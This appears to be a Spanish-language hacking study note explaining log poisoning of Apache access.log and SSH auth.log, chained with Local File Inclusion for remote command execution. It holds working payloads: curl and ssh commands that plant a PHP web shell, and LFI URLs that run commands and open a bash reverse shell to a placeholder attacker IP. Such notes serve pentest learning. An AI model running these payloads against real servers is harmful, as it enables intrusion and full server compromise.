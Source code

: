 ------------------
- Tags: #web #hacking #LFI #RCE #exploiting 
---------------
# Definición

> El **Log Poisoning** es una técnica de ataque donde los registros del sistema se manipulan insertando información falsa o maliciosa. Esto distorsiona la percepción de los eventos, puede ocultar actividades maliciosas y llevar a decisiones incorrectas basadas en registros comprometidos. Esta técnica se suele utilizar junto a la vulnerabilidad de [[LFI (Local File Inclusion)]] para lograr una [[RCE (Remote Command Execution)]] en el servidor.
> 
> Se puede utilizar esta técnica sobre archivos que seamos capaces de visualizar en la página web, y que además podamos modificarlos para introducir código malicioso, como los registros del servidor de **apache2**, los registros de **ssh** o el servicio de **SMTP** de correo electrónico. 

----------
# Apache logs

El archivo que se suele envenenar cuando se está utilizando apache, es el **access.log** , que está ubicado en la ruta **/var/log/apache2/access.log**. A través del **LFI**, podríamos poder visualizar el contenido del archivo si el usuario tuviera acceso del mismo, de manera que podemos envenenarlo incluyendo código **php**.

En dicho registro, hay una columna específica para mostrar la cabecera de **User-Agent** de cada solicitud que ha recibido el servidor web, por lo que si hacemos una petición modificando la cabecera, concretamente la de **User-Agent**, podemos inyectar código malicioso en **php**. Para ello podemos hacer uso del siguiente comando en **bash**:

```bash
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php system('whoami'); ?>"

#Para poder ver qué funciones de php están deshabilitadas en el servidor
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php phpinfo(); ?>"
```


Podemos hacerlo de manera general, para ir modificando la **URL** para ir cambiando el comando deseado:

```bash
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

Y a la para ejecutar el comando, añadimos a la URL lo siguiente:

```
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=whoami
```

Para conseguir una [[Reverse shell]] podemos añadir lo siguiente:

```
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATACANTE>/<PUERTO> 0>%261"
```

---------
# SSH logs

El archivo que se puede envenenar es **auth.log**, alojado en la ruta **/var/log/auth.log**, aunque el archivo también puede tener el nombre de **btmp** y encontrarse en el mismo directorio.

En el log, podemos visualizar errores de conexión de **SSH**, de manera que si se ha introducido un usuario o contraseña erróneo, será reflejado en el log. Esto nos es útil en el caso en el que podamos ver el output de este archivo en el servicio web, de manera que lo podemos envenenar de la siguiente manera:

```bash
ssh '<?php system(\$_GET['cmd']); ?>'@<IP_VICTIMA>
```

Y podemos ejecutar el comando que queramos utilizando **LFI**, de la siguiente manera:

```
http://<IP_VICTIMA>/index.php?filename=/var/log/auth.log&cmd=whoami

#Para una reverse shell
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATACANTE>/<PUERTO> 0>%261"
```